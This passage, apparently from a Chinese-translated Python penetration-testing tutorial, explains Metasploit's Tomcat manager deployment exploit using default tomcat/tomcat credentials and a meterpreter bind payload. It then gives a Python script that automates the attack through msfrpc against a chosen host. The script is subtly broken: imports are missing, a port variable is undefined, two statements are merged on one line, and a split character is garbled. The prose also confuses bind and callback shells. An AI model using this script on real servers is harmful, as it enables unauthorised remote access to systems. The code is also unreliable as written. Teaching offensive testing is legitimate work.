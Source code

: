 要使用它，执行`exploit/multi/http/tomcat_mgr_deploy`命令。配置必要的参数：`RPORT = 8180, RHOST = 192.168.100.2, USERNAME = tomcat, PASSWORD = tomcat`，选择`java/meterpreter/bind_tcp`有效负载，建立一个 meterpreter 会话并执行利用。

成功执行利用后，通过`meterpreter`命令解释器建立了连接，提供了一系列有用的选项，以在受攻击的系统内部提升权限。

一旦启动，shell 将回拨其主机并允许其以被利用服务的任何权限输入命令。我们将使用 Java 有效负载来实现 MSF 中的功能。

在下一个脚本中，我们正在自动化这个过程，设置参数和有效负载，并使用 exploit 选项执行模块。

`RHOST`和`RPORT`参数可以通过`optparse`模块在命令行中给出。

您可以在`msfrpc`文件夹中的`exploit_tomcat.py`文件中找到以下代码：

```py
import msfrpc
import time

def exploit(RHOST, RPORT):
    client = msfrpc.Msfrpc({})
    client.login('msf', 'password')
    ress = client.call('console.create')
    console_id = ress['id']

    ## Exploit TOMCAT MANAGER ##
    commands = """use exploit/multi/http/tomcat_mgr_deploy
    set PATH /manager
    set HttpUsername tomcat
    set HttpPassword tomcat
    set RHOST """+RHOST+"""
    set RPORT """+RPORT+"""
    set payload java/meterpreter/bind_tcp
    exploit
    """

    print("[+] Exploiting TOMCAT MANAGER on: "+RHOST)
    client.call('console.write',[console_id,commands])
    res = client.call('console.read',[console_id])
    result = res['data'].split('n')

def main():
    parser = optparse.OptionParser(sys.argv[0] +' -h RHOST -p LPORT')parser.add_option('-h', dest='RHOST', type='string', help='Specify a remote host')
    parser.add_option('-p', dest='LPORT', type='string', help ='specify a port to listen ')
    (options, args) = parser.parse_args()
    RHOST=options.RHOST
    LPORT=options.LPORT

    if (RHOST == None) and (RPORT == None):
        print parser.usage
        sys.exit(0)

    exploit(RHOST, RPORT)

if __name__ == "__main__":
    main()
```
